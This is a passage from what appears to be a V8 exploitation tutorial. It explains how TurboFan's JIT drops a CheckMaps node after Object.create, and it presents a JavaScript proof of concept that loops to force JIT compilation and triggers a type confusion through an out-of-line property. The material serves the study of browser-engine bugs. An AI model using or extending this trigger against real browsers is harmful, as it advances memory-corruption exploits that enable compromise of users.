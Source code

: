 <p align="center"><a href="/images/POC-Turbo2.png"><img src="/images/POC-Turbo2.png"></a></p>

As you can see in the simplified lowering phase, our previous `CheckMaps` node after the `JSCreateObject` call has now been removed and it directly calls the `LoadField` node. 

Now that we have confirmed that JIT'd code does indeed remove the `CheckMaps` node, let's modify our proof of concept to not use `%OptimizeFunctionOnNextCall` and instead put our code within a loop so that JIT will take over when it is executed.

Additionally, this time let's add an out-of-line property to our object so that we can force JIT to access the backing store as an array, which will trigger our type confusion.

Our updated POC will look like so:

```js
function vuln(obj) {
  // Access Property a of obj, forcing a CheckMap operation
  obj.a;

  // Force a Map Transition via our side-effect
  Object.create(obj)

  // Trigger our type-confusion by accessing an out-of-bound property
  return obj.b;
}

for (let i = 0; i < 10000; i++) {
  let obj = {a:42}; // Create object with in-line properties
  obj.b = 43; // Store property out-of-line in backing store
  vuln(obj); // Trigger type-confusion
}
```
